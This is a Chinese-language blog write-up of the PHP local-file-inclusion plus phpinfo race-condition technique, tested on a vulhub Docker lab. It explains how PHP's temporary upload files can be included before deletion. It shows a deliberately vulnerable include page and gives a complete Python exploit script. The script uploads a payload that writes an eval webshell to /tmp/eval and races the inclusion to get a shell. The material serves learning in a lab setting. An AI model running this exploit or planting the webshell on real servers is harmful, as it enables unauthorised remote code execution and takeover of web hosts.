 ```yaml
---
title: phpinfo with LFI
date: 2018-07-18 19:43:30
tags:
	- php
---
```


# phpinfo with LFI

## 利用场景
当存在一个任意文件包含的页面，然而又找不到可以包含的文件，且有phpinfo页面时  
可以利用phpinfo页面，找到上传的tmp文件，进行条件竞争，生成想要获得shell

## 利用原理

在对一个页面进行文件上传时，无论这个页面将来是否要利用这个文件，php都会将这个文件保存成一个临时文件，默认为 tmp/php[\d\w]{6}  
关于这个文件的信息可以通过`$_FILES`变量获取，这个临时文件将在脚本执行结束时被php销毁  
  
对一个phpinfo页面上传文件时，可以在phpinfo中找到该临时文件的文件名
![](phpinfo-with-LFI/1.png)
  
此时，我们可以利用条件竞争，在php文件销毁之前利用lfi页面对临时文件进行包含，产生新的稳定shell

## 利用思路
首先，逻辑顺序是  
获取phpinfo中的临时文件名 --> 对临时文件进行包含 --> phpinfo页面执行结束，销毁临时文件
  
这就需要phpinfo的执行时间远大于文件包含的时间  
而且这里要在访问phpinfo页面开始后获取文件名，并且在结束前进行包含  
这样，就不能等待整个http请求结束，需要我们直接操控原生的socket，在获取到临时文件名之后就进行包含  
  
这里的思路是往请求phpinfo的包中添加许多垃圾信息，使得整个phpinfo页面变得很庞大  
php的默认缓冲区大小为4096个字节，就相当于php每次返回4096个字节给socket连接  
这样，当我们获取到临时文件名时，就立即发送文件包含请求  
当整个phpinfo被垃圾信息充斥时，就有足够的时间给我们进行文件包含，从而生成shell  
  
## 漏洞环境
这里是直接利用的p神vulhub的docker镜像，看了环境也很简单
- php7.2
- apache

目录文件:
lfi.php
```php
<?php
include $_GET['file'];
```
phpinfo.php
```php
<?php
phpinfo();
```
用docker-compose可以直接跑
```
version: '2'
services:
 php:
   image: php:7.2-apache
   volumes:
    - ./www:/var/www/html
   ports:
    - "8080:80"
```
## exp编写
主要麻烦就是利用socket直接操纵http请求，要控制好报文内容，不然很容易请求失败  
其次我这是用python3写的，涉及到一些编解码的问题，注意一下就好  
  
一开始是要先获取临时文件的偏移值  
然后利用偏移值获取来获取临时文件名时要recv多少字节的数据  
能接受到临时文件名时，就开始发送文件包含请求，在临时文件销毁前包含到即可生成shell
  
p神的脚本中用了多线程，一开始以为，是要多个线程同时进入才能进行条件竞争  
后来分析之后发现，对一个确定的临时文件，只有随后的那个包含请求能包含那个文件，从而导致了一种逻辑上的制约，就不存在线程之间的竞争  
开多进程也可能是为了增大并发数吧。我这里为了从简就用简单的for循环来替代  
```python
import os
import socket
import sys


tag = 'kingkk'
PAYLOAD="""{}\r
<?php file_put_contents('/tmp/eval', '<?=eval($_REQUEST[1])?>')?>\r""".format(tag)

UPLOAD="""-----------------------------7dbff1ded0714\r
Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
Content-Type: text/plain\r
\r
{}
-----------------------------7dbff1ded0714--\r""".format(PAYLOAD)

padding="A" * 5000

INFOREQ="""POST /phpinfo.php?a={padding} HTTP/1.1\r
Cookie: PHPSESSID=q249llvfromc1or39t6tvnun42; othercookie={padding}\r
HTTP_ACCEPT: {padding}\r
HTTP_USER_AGENT: {padding}\r
HTTP_ACCEPT_LANGUAGE: {padding}\r
HTTP_PRAGMA: {padding}\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: {len}\r
Host: %s\r
\r
{upload}""".format(padding=padding, len=len(UPLOAD), upload=UPLOAD)

LFIREQ="""GET /lfi.php?file=%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Host: %s\r
\r
\r
"""

class PHPINFO_LFI():
	def __init__(self, host, port):
		self.host = host
		self.port = int(port)
		self.req_payload= (INFOREQ % self.host).encode('utf-8')
		self.lfireq = LFIREQ
		self.offset = self.get_offfset()


	def get_offfset(self):
		'''
		获取tmp名字的offset
		'''
		s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect((self.host, self.port))

		s.send(self.req_payload)
		page = b""
		while True:
			i = s.recv(4096)
			page+=i        
			if i == "":
				break

			if i.decode('utf8').endswith("0\r\n\r\n"):
				break
		s.close()

		pos = page.decode('utf8').find("[tmp_name] =&gt; ")
		print('get the offset :{} '.format(pos))

		if pos == -1:
			raise ValueError("No php tmp_name in phpinfo output")
		
		return pos+256 #多加一些字节

	def phpinfo_lfi(self): 
		'''
		同时发送phpinfo请求与lfi请求
		'''
		phpinfo = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		lfi = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    

		phpinfo.connect((self.host, self.port))
		lfi.connect((self.host, self.port))

		phpinfo.send(self.req_payload)

		infopage = b"" 
		while len(infopage) < self.offset:
			infopage += phpinfo.recv(self.offset)

		pos = infopage.decode('utf8').index("[tmp_name] =&gt; ")
		tmpname = infopage[pos+17:pos+31]

		lfireq = self.lfireq % (tmpname.decode('utf8'),self.host)
		lfi.send(lfireq.encode('utf8'))

		fipage = lfi.recv(4096)

		phpinfo.close()
		lfi.close()

		if fipage.decode('utf8').find(tag) != -1:
			return tmpname


if __name__ == '__main__':
	if len(sys.argv) < 4:
		print('usage:\n\texp.py 127.0.0.1 80 500')
		exit()
	host = sys.argv[1]
	port = sys.argv[2]
	attempts = sys.argv[3]
	print('{x}Start expolit {host}:{port} {attempts} times{x}'.format(x='*'*15, host=host, port=port, attempts=attempts))

	p = PHPINFO_LFI(host,port)
	for i in range(int(attempts)):
		print('Trying {}/{} times…'.format(i, attempts), end="\r")
		if p.phpinfo_lfi() is not None:
			print('Getshell success! at /tmp/eval "<?=eval($_REQUEST[1])?>"')
			exit()
	print(':( Failed')

```
![](phpinfo-with-LFI/1.gif)
  
可以看到目录下成功生成临时文件
![](phpinfo-with-LFI/2.png)



## Reference Link
https://github.com/vulhub/vulhub/tree/master/php/inclusion